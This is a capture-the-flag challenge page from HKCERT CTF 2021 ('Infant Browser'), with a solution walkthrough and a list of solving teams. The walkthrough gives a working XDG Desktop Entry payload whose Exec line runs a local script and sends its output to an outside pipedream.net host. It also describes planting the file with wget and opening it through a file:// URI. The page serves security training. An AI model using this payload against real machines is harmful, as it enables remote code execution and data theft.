

# 網絡安全隱患 (Infant Browser)



| Key | Value |
| --- | ----- |
| ID | 98 |
| Tags (Categories) | #pwn #web #☆☆☆☆☆ |
| Challenge release timestamp | 2021-11-12T10:00:00.000Z |
| Score | 50 |
| Total solves (Final) | 52 |

# YouTube

| Key | Value |
| --- | ----- |
| Avatar | 
| Singer (Challenge Author) | ozetta |
| Link | https://youtu.be/lcbMp5kWUUE |

# Description

http://chal-s1.hkcert21.pwnable.hk:28098/
http://chal-s2.hkcert21.pwnable.hk:28098/

What if someone uses wget as the browser?
Flag: find the flag in the root directory with name `/proof*.sh`

**NOTE:** Both links serve the same challenge. You may choose any one of them.

**UPDATE (12 Nov 21:52)**: Updated link to challenge server. 

---

* The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

* In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

* But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

* For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it
```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```
* If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

* Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before
* But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

* Too easy for you? Now you can try babyURIi...

### Attachments

- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](./infantbrowser_6939c231042fd155a512940cd0982f76.zip)

# Solves
| ID | Name | Solve at |
| --- | ---- | -------- |
| 136 | T0047 - HKUST | 2021-11-12T10:17:31.749Z |
| 156 | O0027 - UND3r 20 D53 H473r5 4ND r374K3r | 2021-11-12T10:22:05.287Z |
| 158 | T0003 - HKUST | 2021-11-12T10:22:50.432Z |
| 233 | T0042 - HKUST | 2021-11-12T10:51:23.261Z |
| 264 | O0056 - AVADA KEDAVRA | 2021-11-12T11:06:45.761Z |
| 272 | 天枢Dubhe | 2021-11-12T11:12:30.543Z |
| 353 | O0083 - c0rrupted flags | 2021-11-12T12:16:33.231Z |
| 373 | O0084 - Never Gonna Let You Dump | 2021-11-12T12:33:50.771Z |
| 411 | T0087 - CityU | 2021-11-12T13:06:58.451Z |
| 419 | T0039 - CUHK | 2021-11-12T13:10:33.735Z |
| 425 | S0048 - TWGHs Wong Fut Nam College | 2021-11-12T13:17:54.359Z |
| 426 | O0072 - Royal Sunflower Tea | Tea to enrich your day | 2021-11-12T13:18:16.568Z |
| 433 | T0090 - HKUST | 2021-11-12T13:21:52.582Z |
| 436 | T0085 - PolyU | 2021-11-12T13:23:40.896Z |
| 441 | T0037 - HKBU,CityU,HKMU | 2021-11-12T13:28:30.726Z |
| 444 | T0010 - CityU,PolyU | 2021-11-12T13:32:39.814Z |
| 449 | S0073 - Ying Wa College | 2021-11-12T13:38:16.747Z |
| 461 | T0028 - CUHK,PolyU,HKCC | 2021-11-12T13:52:14.379Z |
| 470 | O0010 - HackyClub | 2021-11-12T13:58:10.961Z |
| 478 | MOCSCTF-A | 2021-11-12T14:07:02.677Z |
| 517 | O0008 - RTP | 2021-11-12T14:53:52.995Z |
| 537 | O0061 - GoGoWeaponGo | 2021-11-12T15:13:52.590Z |
| 544 | O0067 - HC2021 | 2021-11-12T15:21:35.282Z |
| 548 | O0055 - Braindump | 2021-11-12T15:25:21.807Z |
| 551 | O0054 - Mama Sung | 2021-11-12T15:27:19.951Z |
| 569 | T0025 - IVE(TM) | 2021-11-12T15:43:33.611Z |
| 585 | S0008 - The Chinese Foundation Secondary School | 2021-11-12T16:00:32.198Z |
| 589 | O0004 - AUTOEXEC.BAT | 2021-11-12T16:05:37.200Z |
| 611 | O0016 - ePotato | 2021-11-12T16:43:29.075Z |
| 619 | O0066 - QWErTY | 2021-11-12T16:57:57.358Z |
| 630 | The Duck | 2021-11-12T17:06:32.089Z |
| 657 | O0024 - SquidGamer | 2021-11-12T18:06:41.229Z |
| 664 | DarkArmy | 2021-11-12T18:31:12.343Z |
| 667 | O0073 - knownothing | 2021-11-12T18:35:19.497Z |
| 698 | O0062 - P2403 | 2021-11-12T20:35:34.787Z |
| 719 | Super Guesser | 2021-11-13T00:05:50.515Z |
| 745 | O0059 - Fragile❤ | 2021-11-13T02:39:02.424Z |
| 845 | S0003 - Kwun Tong Maryknoll College | 2021-11-13T06:43:23.635Z |
| 896 | S0031 - Ying Wa College | 2021-11-13T08:10:41.445Z |
| 1113 | S0062 - CARMEL SECONDARY SCHOOL | 2021-11-13T12:17:11.442Z |
| 1121 | O0068 - HC2021A | 2021-11-13T12:31:41.092Z |
| 1130 | S0018 - The Chinese Foundation Secondary School | 2021-11-13T12:44:24.082Z |
| 1209 | O0060 - Nobody | 2021-11-13T14:32:28.686Z |
| 1232 | T0091 - HKU | 2021-11-13T15:06:01.663Z |
| 1305 | O0050 - 7M5_N650C | 2021-11-13T16:55:16.615Z |
| 1444 | S0056 - Queen's College Old Boys' Association Secondary School | 2021-11-14T04:40:17.204Z |
| 1476 | S0041 - CARMEL SECONDARY SCHOOL | 2021-11-14T06:00:05.281Z |
| 1482 | T0057 - HKUST | 2021-11-14T06:20:01.811Z |
| 1526 | O0043 - The Almighty Dragon | 2021-11-14T08:10:23.124Z |
| 1559 | T0064 - HKUST | 2021-11-14T09:06:54.731Z |
| 1579 | S0043 - CARMEL SECONDARY SCHOOL | 2021-11-14T09:30:27.481Z |
| 1611 | O0086 - offsecFansclub | 2021-11-14T09:48:45.879Z |